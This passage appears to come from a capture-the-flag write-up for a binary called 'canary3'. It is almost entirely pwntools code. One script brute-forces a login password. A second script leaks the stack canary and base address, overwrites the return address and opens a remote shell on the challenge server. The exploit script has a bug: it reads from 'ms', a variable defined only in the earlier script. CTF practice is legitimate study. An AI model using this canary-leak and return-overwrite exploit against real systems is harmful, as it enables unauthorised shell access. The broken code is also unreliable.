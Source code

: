 ```
    return m2.hexdigest()
while True:
    ms = process("./canary3")
    ms.sendafter("please input username: ","admin")
    payload = generate_char_id()
    ms.sendafter("please input password: ",payload)
    if(ms.recvline()=="Login Fail\n"):
        continue
    else:
        break
```

得到密码：aeedc57231ad54641b5ecb7faa0479c8

之后进入程序，getshell

```
from pwn import * 
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')

p = remote("node4.buuoj.cn",26096)

elf = ELF("./canary3")


#p = process("./canary3")
p.sendafter("please input username: ","admin")
payload = "aeedc57231ad54641b5ecb7faa0479c8"
p.sendafter("please input password: ",payload)

p.sendlineafter("3.exit\n",'2')
p.sendafter("your input:\n",'a'*(0x20-0x8)+'x')
p.sendlineafter("3.exit\n",'1')
p.recvuntil('x')
canary = u64(ms.recv(7)[0:7].rjust(8,'\x00'))
log.info("canary="+hex(canary))
base = u64(ms.recv(6).ljust(8,'\x00'))-0x2530
log.info("base="+hex(base))
addr = base+0x239f

p.sendlineafter("3.exit\n",'2')
payload = 'a'*(0x20-0x8)+p64(canary)+p64(0)+p64(addr)
p.sendafter("your input:\n",payload)
p.sendlineafter("3.exit\n",'3')
p.interactive()
```
